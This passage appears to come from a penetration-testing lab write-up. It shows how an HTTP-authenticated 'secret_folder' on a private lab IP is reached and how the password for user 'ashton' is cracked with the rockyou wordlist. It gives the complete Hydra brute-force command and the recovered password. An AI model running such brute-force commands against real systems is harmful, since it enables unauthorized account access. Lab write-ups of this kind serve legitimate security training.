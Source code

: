 Following this instruction as to where to navigate to being http://192.168.1.105/company_folders/secret_folder.

![secret folder](/Images/secret_folder.jpg "secret folder")

While trying to navigate to the secret_folder directory a prompt to authenticate appears. Based on the “For ashton’s eyes only” it is determined that cracking the password for the user ashton is the next step.

### Brute force the password for the hidden directory using the hydra.
To crack the password via brute force Hydra was used to run a wordlist against user ashton.

Word lists in Kali are located in the /usr/share/wordlists directory. So in the terminal the wordlists folder was navigated to. Then the rockyou.txt.gz was unzipped using gunzip.

Commands: 

`cd /usr/share/wordlists`

`ls`

`gunzip rockyou.txt.gz`

Then using the common wordlist of rockyou.txt with Hydra was used to brute force.

Command:

`hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`

Result:

login: ashton 

password: leopoldo
